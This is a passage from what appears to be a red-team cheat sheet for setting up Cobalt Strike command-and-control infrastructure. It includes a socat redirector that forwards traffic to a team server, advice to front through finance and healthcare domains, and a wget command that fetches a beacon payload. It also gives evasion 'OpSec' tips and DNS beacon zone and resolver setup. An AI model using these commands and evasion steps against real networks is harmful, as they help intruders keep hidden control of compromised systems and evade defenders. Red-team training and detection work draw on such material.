 ```powershell
sudo apt install socat
socat TCP4-LISTEN:80,fork TCP4:[TEAM SERVER]:80
```

### Domain Fronting

* New Listener > HTTP Host Header
* Target Finance & Healthcare domains 

### OpSec

**Don't**
* Change default self-signed HTTPS certificate
* Change default port (50050)
* 0.0.0.0 DNS response
* Metasploit compatibility, ask for a payload : `wget -U "Internet Explorer" http://127.0.0.1/vl6D`

**Do**
* Use a redirector (Apache, CDN, ...)
* Firewall to only accept HTTP/S from the redirectors
* Firewall 50050 and access via SSH tunnel
* Edit default HTTP 404 page and Content type: text/plain
* No staging `set hosts_stage` to `false` in Malleable C2


## Payload

### DNS Beacon

* Edit the Zone File for the domain
* Create an A record for Cobalt Strike system
* Create an NS record that points to FQDN of your Cobalt Strike system

Your Cobalt Strike team server system must be authoritative for the domains you specify. Create a DNS A record and point it to your Cobalt Strike team server. Use DNS NS records to delegate several domains or sub-domains to your Cobalt Strike team server's A record.

* nslookup jibberish.beacon polling.campaigns.domain.com
* nslookup jibberish.beacon campaigns.domain.com

Example of DNS on Digital Ocean:

```powershell
NS  example.com                     directs to 10.10.10.10.            86400
NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
A	campaigns.example.com           directs to 10.10.10.10	            3600 
```

```powershell
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" >  /etc/resolv.conf
echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
```
